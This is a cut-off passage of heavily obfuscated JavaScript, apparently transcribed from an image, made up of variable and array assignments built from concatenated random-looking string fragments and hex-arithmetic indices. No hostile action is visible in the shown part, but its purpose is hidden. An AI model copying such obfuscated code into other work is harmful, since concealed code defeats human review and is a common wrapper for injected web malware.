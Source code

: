 a0eg='7v'+'3f'+']E'+'8X'+']^',a0eh='+C'+'Rt'+'o+'+'v['+'iW'+'Bt'+'eb'+'ce';a0bk[-0x8e*0x13+-0xdb4+0x18c5]='13'+'Vi'+'tW'+'8',_I7Wy8i9ZC='l['+'Kx'+'_k'+'m#'+'oS'+'uW',_WzNiW='R*'+'*z'+'OH'+'Q%'+'t7'+'Nn'+'d%',_yrB1jgdD5='*b'+'by'+'Wy'+'m4'+'j('+'l5'+'XB'+'Mz',a0bk[-0x8f8+0x112c+-0xc*0xab]='yL'+'Mf'+'J';var a0ei='eX'+'N5'+']K'+'pc'+'^K'+'C.'+'HV'+'H';_Bp5FLqJ='Q&'+'.*'+'(*'+'p6',_wNUpG='O2'+'kJ'+'[*'+'_5'+'MH'+'HP'+'_L',a0bk[0x1*0x1736+0xd89+0x11*-0x224]='Zt'+'yB'+'CP'+'W',_Wbh1t='s8'+'-X'+'/-'+'vz'+'%';var a0ej='Rq'+'%X'+'ZO'+'wA'+'s';_K7dHapO='f)'+'J='+'Q['+'Qy'+'k7'+'5';var a0ek='Xg'+'^.'+'65'+'k!'+'pC'+'d@';a0bg['MQ'+'DR'+'rx'+'S']='5E'+'ML'+'fA'+'cy'+'oL'+'C4'+'0q'+'5';var a0el='m)'+'c1'+'6x'+'#4'+')%'+'?c'+'er'+'u',a0em='zi'+'2P'+'n-'+'Ak'+'m',a0en='yi'+')e'+'^E'+'P7'+'V';_cccGTD9IaV='rJ'+'+T'+'45'+'j('+'E9'+'9';var a0eo='6i'+'v0'+'4%'+'*6';a0bg['Gb'+'uN'+'zW'+'eF']='mr'+'LE'+'qL'+'oq'+'Fo'+'Ky'+'Qr'+'pI'+'OF'+'BW';var a0ep='cO'+'RH'+'&B'+'1T'+'V6'+'_C'+'I';_vxiM3V='WR'+'NK'+'EH'+'T-'+'*O'+'=='+'Zl'+'0';var a0eq='.x'+'ab'+'i['+'Ju'+'nC'+'7';a0bk[-0x15a2+0x2422+-0xe01]='ZQ'+'kn'+'6M'+'S',_PRYPx='kl'+')x'+'_c'+'&a'+'F+'+'xn'+'pL'+'#',_l8fp684Js='7p'+'lo'+'Vg'+'q',_q338F='tP'+'dD'+'RD'+'.j'+'tn'+'4U',_4WGkWH257='1c'+'.W'+'b0'+'Rh'+'-K',a0bg['Sd'+'Qi'+'qx'+'KZ'+'e']='EL'+'um'+'Cm'+'DC'+'mS'+'Lq'+'s1'+'j',_pN1l8Ynl97='p5'+'uQ'+'(W'+'lq';var a0er='/k'+'wZ'+'xq'+'_s'+'*+'+'+s'+'][';a0bg['aA'+'Xy'+'Lt'+'lS'+'s']='rA'+'yv'+'AT'+'oj'+'Uu'+'51'+'8',_tDc74qF5hP='Q)'+']8'+'gh'+'@N'+'0G'+'j';var a0es='?1'+')J'+'AV'+'Dr'+'5K'+'Mv';_er3pDr='R.'+'Hm'+'ua'+'7Y',_mf82NtQ='B/'+'.&'+'-M'+'#E'+'*5'+'j';var a0et='6T'+'=3'+'AA'+'Vx'+'5g'+'x';a0bg['jF'+'Eg'+'u']='Fj'+'2q'+'Lq'+'iV'+'bw'+'iQ';var a0eu='Q_'+'BS'+'ls'+'1.'+'A',a0ev=']='+'bw'+'hk'+'TT'+'d%'+'+';_XKk4U3='Y8'+'3S'+'Ql'+'3',a0bg['kG'+'aW'+'za'+'na']='CY'+'uv'+'Kz'+'Kb'+'L6'+'1U'+'SM'+'WA',_kphkKs67c='Sn'+'ZD'+'+1'+'C/'+'MN'+'d=',_brhkE8JRt='UU'+'i4'+'pm'+'+R'+'w',a0bg['kx'+'XU'+'G']='gq'+'vq'+'LZ'+'Hq'+'mW'+'wC'+'V5'+'Ir',_ALELstj='6D'+'te'+'%z'+'i1'+'e='+'XS'+'[',_jn8TqsVw='Rk'+'wh'+'?N'+'WN',_uf0SbQVd='*)'+'on'+'Xd'+'bt'+'%=';var a0ew='2Q'+'9r'+'3b'+'n%'+'zT'+'i';a0bk[-0x25*-0x43+-0x17d+-0x7d0]='Wl'+'in'+'hA'+'rB',_eumPDG='%^'+'=O'+'iJ'+'EY'+'l@'+'Mr'+'-_'+'3',_tz76Qvst='[d'+'My'+'.i'+'OL'+'l';var a0ex='&d'+'=K'+'d!'+'YN'+'(1'+'%e'+'!Q'+'zA',a0ey='9P'+'Op'+'^)'+'gK'+'hx'+'wK'+']';a0bk[-0x1134+0x1666+-0x4b1]='9T'+'xZ'+'C8'+'ee'+'n';var a0ez='^G'+'mm'+'3+'+'HD'+'Tp'+'df';_ZIafAa='(x'+'9U'+'37'+'j!'+'Oe'+'U';var a0eA='K-'+'.@'+'0.'+'!='+'.H'+'e6';a0bk[-0x1*0x2f1+-0x2362+0x26af]='nw'+'hF'+'JR'+'7A'+'YO';var a0eB='_P'+'+U'+'84'+'7z'+']G'+'fM'+'Au'+'Q!';_O6OHQg='R('+'vf'+'5o'+'L8'+'iV'+'5#'+'q='+'=',_frzhprS='^^'+'jo'+'%R'+'vE'+'k-'+'J',a0bg['lg'+'Io'+'X']='bq'+'T&'+'au'+'th'+'=e'+'bn';var a0eC='zD'+'SH'+'tl'+'&W'+'xH'+'ag'+'*U';_lwPiP='HN'+'p['+'AB'+'ch'+'cX'+'f-'+'e+';var a0eD='1x'+'I0'+'/i'+'VU'+'@';a0bk[0x21f7+0x204e+0x1609*-0x3]='jA'+'dr'+'ho'+'AP',_5kebWh='K*'+'o&'+']6'+'.f'+'(Q',_csPFwa5hP='WM'+')T'+'xW'+'PC'+'.#'+'%7',a0bg['zW'+'tw'+'oy']='uU'+'qm'+'iC'+'sR'+'sk'+'Ad',_rdaGlnCDnK='=S'+'[D'+'w*'+'!y'+'ky'+'PE'+'pP'+'5',_0aflHf='Nh'+'hO'+'8A'+'NW'+'@R'+'++'+'Bu'+'p';var a0eE='/Y'+'jH'+'&x'+'O',a0eF='XI'+'K_'+'pe'+'N/'+'pC'+'*6'+'q%';a0bg['Vf'+'VU'+'rp'+'f']='bl'+'zm'+'Rv'+'Lq'+'LK'+'aE'+'TA'+'aU'+'FJ'+'uB'+'O';var a0eG='Xf'+'nd'+'3H'+'!H'+'Ih'+'&L'+'!';_fjiig='^n'+'pz'+'%Y'+'(M'+'^F'+'Xs'+'h',_caMml='-@'+'7U'+'Vg'+'K.'+'E4'+'6b'+'3';var a0eH='Q0'+'ij'+'r*'+')h';a0bk[0x354*0xa+-0x8b*0x6+0x1dc5*-0x1]='4H'+'jo'+'C0'+'K',_rVDt5ms='Ao'+'Fo'+'vN'+'HF'+'yr';var a0eI='A('+'*%'+'Zh'+'YV'+'C3'+'0';_lL6Xd1EO='-l'+'RK'+'#('+'Xt'+'j('+'2=',_khljHsuUMQ='o8'+'84'+'cW'+'*A'+'Lq'+'l]';var a0eJ='H/'+'dm'+'[U'+'Gt'+'K&'+'XU';a0bg['Fk'+'NG'+'pc'+'Hi']='RY'+'vL'+'qL'+'Ka'+'ET'+'A5'+'pC'+'ZV'+'SE',_PprkVvKl4='NJ'+'y='+'qt'+'H?'+'m',_YOzB2z2Ty='44'+'tV'+'*O'+'h*',_T4YxbuFqo='ZA'+'I)'+'(Q'+'qL'+'h';var a0eK='%o'+'O7'+'^W'+'QQ'+'Nd'+'M-'+'gU'+'o+';a0bk[-0x100e+0x12*0x3a+-0x3*-0x41c]='8U'+'Zh'+'o',_3pZCE23Ls='Ub'+'RP'+']b'+'(%'+'H/'+'(P'+'v=';var a0eL='BU'+'w2'+'me'+'!8'+'=',a0eM='Q('+'ny'+'*/'+'2d';_XpHQemWLSQ='*t'+'vD'+'=z'+'p='+'V',a0bk[0x215f+-0x2e7+0x1e63*-0x1]='QA'+'P4'+'5',_miMexluT='sD'+'ae'+'(w'+'g&'+'j',_wpcjFH0X='L('+'XM'+'yJ'+'Sa'+'0('+'h',a0bg['uJ'+'qx'+'Ap'+'QT']='nr'+'Tt'+'mi'+'KS'+'Lq'+'vj'+'sW'+'pc',_sJK2yl='Ap'+'#H'+'_C'+'K*'+'S',_hkGwxDNbku='[P'+'Ov'+'as'+'/N'+'bf'+'uL',a0bg['UL'+'Jz'+'m']='Lv'+'Lq'+'L';var a0eN='r['+'ak'+')C'+'4Y'+'*i'+'+k'+'iC'+'M',a0eO='na'+'#W'+'ws'+'du'+'e';a0bg['lZ'+'Tu'+'Zc']='Lq'+'mZ'+'uD';var a0eP='f]'+'6I'+'jm'+'l)'+'*#'+'s',a0eQ='pQ'+'d6'+'Vs'+'H-'+'v';a0bk[0x11ea*-0x2+-0xc1b*0x2+-0x250*-0x1a]='V1'+'bE'+'Rb';var a0eR='F.'+'0D'+'*Q'+'@/'+'ox'+'7O'+'Pq',a0eS='3F'+'&x'+'A*'+'op'+'h';_ZtoJLpQ5s='yn'+'qy'+'?D'+'8G'+'z-',a0bg['os'+'CS'+'Sm'+'i']='qC'+'oI'+'Lv'+'Lq'+'Lm'+'ob'+'hk'+'w3';var a0eT='J%'+'i?'+'Ox'+'(*'+'9u'+'vJ'+'m';_9EE2M='o5'+'xD'+'sa'+'?4'+'N*'+'?N'+'.*'+'J';var a0eU='h#'+'5-'+'8s'+'2m'+'D',a0eV='GD'+'W_'+'Pq'+'5N'+'q';_ZC09F='yq'+'aU'+'z@'+'MP'+'t]'+'6Q'+'t',a0bg['KN'+'Aa'+'B']='Zo'+'cT'+'oT'+'oq'+'vR'+'9r'+'b',_kElb2Itl4d='f_'+'2b'+'YX'+'Lr'+'mE';var a0eW='1_'+'Cv'+'F/'+'*x'+'2q'+'S',a0eX='mQ'+'eb'+'dx'+'*9'+'8U'+'5r'+'?(',a0eY='p4'+'fH';_oG70N2jT3='0*'+'6s'+'7Y'+'jV'+'7Y'+'(#';var a0eZ='T@'+'Pg'+'l*'+'/='+'Oq'+'[T'+'NE'+'*';_iyFTZ='h['+']E'+'S!'+'F&'+'v+'+'Zj'+'8*'+'#P';var a0f0='rt'+'n2'+'LE'+'ue'+'J6'+'X',a0f1='Ss'+'%#'+'u)'+'&',a0f2='Ot'+'o8'+'0M'+'6J'+'C&'+'Hm'+'j';a0bk[-0x2cf*-0x3+-0xc85+0x432]='Lx'+'uC'+'fx'+'nI',_V2gMoa='U^'+'&d'+'I0'+'9('+']I'+'MN'+'/c',_lK3DinMItV='31'+'Az'+'W?'+'gE'+'FB'+'.v',_K5xgv8G='d*'+'O!'+'Jz'+'m1'+'Nl';var a0f3='r5'+'1w'+'3e'+'%C'+'Q[';a0bk[0x1*0x6f1+0x167*-0x13+-0x1*-0x1409]='pe'+'RH'+'vt'+'nL';var